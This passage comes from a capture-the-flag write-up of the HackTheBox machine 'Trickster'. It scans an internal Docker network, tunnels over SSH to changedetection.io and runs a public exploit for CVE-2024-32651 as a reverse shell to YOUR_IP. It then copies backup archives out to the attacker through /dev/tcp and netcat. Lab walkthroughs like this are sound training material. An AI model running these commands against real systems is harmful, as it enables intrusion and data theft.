 ![Internal nmap scan](/images/HTB-Trickster/internal_nmap_scan.png)

We find two hosts: `172.17.0.1` (that's us) and `172.17.0.2`, let's scan it.

```
./nmap -p- 172.17.0.2
```

We find port `5000` open. 

![Open ports on 172.17.0.2](/images/HTB-Trickster/port_5000_open.png)

We do some tunneling to access the port.

```
ssh -L PORT_NUMBER:172.17.0.2:5000 james@trickster.htb
```

![SSH tunneling command](/images/HTB-Trickster/SSH_tunneling.png)

At `http://localhost:5000/` we find an instance of [changedetection.io](https://changedetection.io/), a tool to monitor changes in web pages. We login with `james` password, the application is running version `v0.45.20`.

![changedetection version](/images/HTB-Trickster/changedetection_version.png)

### Shell as root (Docker)

After some research we find [CVE-2024-32651](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/) with a PoC [here](https://github.com/evgeni-semenov/CVE-2024-32651). We execute the exploit and become root in the container.

```
python3 cve-2024-32651.py --url http://localhost:5000/ --ip YOUR_IP --port 9001 --password alwaysandforever
```

![cve-2024-32651](/images/HTB-Trickster/CVE_2024_32651.png)

In `/datastore/Backups` we find some zip files.

![backups archives](/images/HTB-Trickster/backup_archives.png)

The container does not have `curl`, `wget`, or `nc`. So we send the data to `/dev/tcp` for file transfer.

On the target we run:

```
cat changedetection-backup-20240830194841.zip > /dev/tcp/YOUR_IP/PORT_NUMBER
```

On our local machine we run:

```
nc -l -p {PORT_NUMBER} -q 1 > changedetection-backup-20240830194841.zip
```
